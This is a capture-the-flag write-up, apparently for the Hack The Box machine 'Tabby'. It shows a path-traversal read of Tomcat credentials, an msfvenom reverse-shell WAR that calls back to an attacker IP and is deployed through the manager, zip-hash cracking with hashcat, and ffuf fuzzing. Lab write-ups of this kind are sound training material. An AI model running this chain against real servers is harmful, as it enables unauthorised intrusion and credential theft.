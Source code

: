 /home/tomcat/apache-tomcat-9.0.31/conf/tomcat-users.xml

../../../../usr/share/tomcat9/etc/tomcat-users.xml

Okay after sooo many time lost in searching and don't understanding why I was not seing the output is due to xml files not being displayed in the web browser :D

view-source:http://....

does de trick, or directly curl. So: view-source:megahosting.htb/news.php?file=../../../..../../../../usr/share/tomcat9/etc/tomcat-users.xml
Sooo:
Credentials:
`tomcat:$3cureP4s5w0rd123!`

After the mental breakdown, getting back to the tomcat's host-manager webpage, we can now try to upload a `.war` file to trigger a reverse shell, as mentioned in [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=31415 -f war -o rev.war

curl --upload-file rev.war -u 'tomcat:$3cureP4s5w0rd123!' "http://$(cat ip):8080/manager/text/deploy?path=/rev"
```

Then we can directly go to http://megahosting.htb:8080/rev/ and we got our reverse shell.

We quickly find out that the system is on read-only mode, so we won't be able to execute `linepeas.sh`. Nevertheless, after some manual discovery, we find a zip file over `/var/www/html/files/`.

We can retrieve it via curl exploiting the same news.php webpage used before. We observe that the zip is protected with a password, and unluckily it's not the same as the user's pass.

Let's try to crack the zip file. First we are going to grab the hash with #john 
```
./zip2john /home/lotape6/resources/hack/htb/tracks/crest_crt/tabby/16162020_backup.zip > /home/lotape6/resources/hack/htb/tracks/crest_crt/tabby/zip.hash
```

Then, after upgrading hashcat (since my version was not able to attack my zip hash), it's time to identify the hash:
```
hashcat -h | grep -i zip

hashcat -m 17225 -a 0 zip.hash $SECLIST/../rockyou.txt
```

And the pass is: `admin@it`

And nothing really interesting over the zip file at a glance, but at least we have a new pass to try on different sites.

```
findall "*tomcat*" -type f | xargs -I % ffuf -u http://megahosting.htb:8080/host-manager/html/FUZZ -w % -fs 0 -b "JSESSIONID=5769658DF86D051715E712A309FD3DEC" -fc 401  -s


findall "*tomcat*" -type f | xargs -I % sh -c "ffuf -u http://megahosting.htb:8080/FUZZ -w % -fs 0 -b 'JSESSIONID=5769658DF86D051715E712A309FD3DEC'  -fc 401 -s >> tomcat_findings"

sort -u tomcat_findings > tomcat_findings_unique

```
